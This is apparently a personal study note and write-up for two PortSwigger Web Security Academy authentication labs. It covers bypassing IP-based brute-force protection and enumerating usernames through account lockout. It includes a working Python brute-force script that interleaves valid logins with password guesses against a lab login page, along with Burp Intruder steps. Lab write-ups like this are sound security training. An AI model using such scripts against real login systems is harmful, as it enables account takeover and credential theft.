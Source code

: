 ```yaml
---
tags: ["brute force", "account locking"]
title: Password based login part-2
image: "img/Portswigger/authentication.png"
---
```


## Flawed brute-force protection

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts
- Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

## Lab

In this lab we have to do good login one time and then try our brute force creds one time and we can do this in loop with any script!

So i made one python script and added all the passwords in List and checked them one by one!

==> Exploit :

```py
import requests

def goodReq():
	username = "wiener"
	password = "peter"
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"
	data = {
		'username':username,
		'password':password
	}
	r = requests.post(url=url,data=data)
	# print(r.text)
# goodReq()

def brute_force():
	username = "carlos"
	password = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"

	Flag = False
	count = 0
	i = 0
	while (Flag==False):
		if(count % 2 == 0):
			print("Trying bad request")
			r = requests.post(url=url,data={'username':username,'password':password[i]})
			if("Your username is:" in r.text):
				Flag = True
				print("Credentials Found!")
				print("Username: ",username)
				print("Password: ",password[i])
				print(r.text)
				break
			i += 1
			count += 1
		else:
			print("Trying good request")
			count += 1
			goodReq()
brute_force()
```

--> After running this exploit i found the password for `carlos` and solved the lab!

![](Attachments/Pastedimage20220202125348.png)

---

# Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection against targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For example, the following method can be used to work around this kind of protection:

1.  Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list of common usernames.
2.  Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 password guesses.
3.  Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

Account locking also fails to protect against credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

## Lab: Username enumeration via account lock

--> This website locks the account of a user if the user tries to login after 2-3 attempts so with this functionality or logic we can think that if the user account exists then only the website will lock the user account and that's the logic flow here. we can use this logic for username enumration

So we have provided the username list and password list. I firstly brute forced the username with the given username list and for password i tried the given password list with `cluster bomb` and also i have grepped the string `Invalid username or password` to check that which username is getting blocked

And after some time i found that the user `alabama` don't get the grepped string so that means the account got locked. And now we have one possible username called `alabama`

![](Attachments/Pastedimage20220202140519.png)

--> For password brute force we have to make the difference between requests `3` because the website is blocking us for 3 or more failed login attempts. But after some time i found that if your login is correct then website is displaying nothing.

So i again grepped the `Invalid username or password` and `You have made too many requests` strings and started the attack. And after some time i found that we don't get anything for password `buster` so it might be a correct password!

![](Attachments/Pastedimage20220202144628.png)

--> And after trying that password with the username i solved the lab!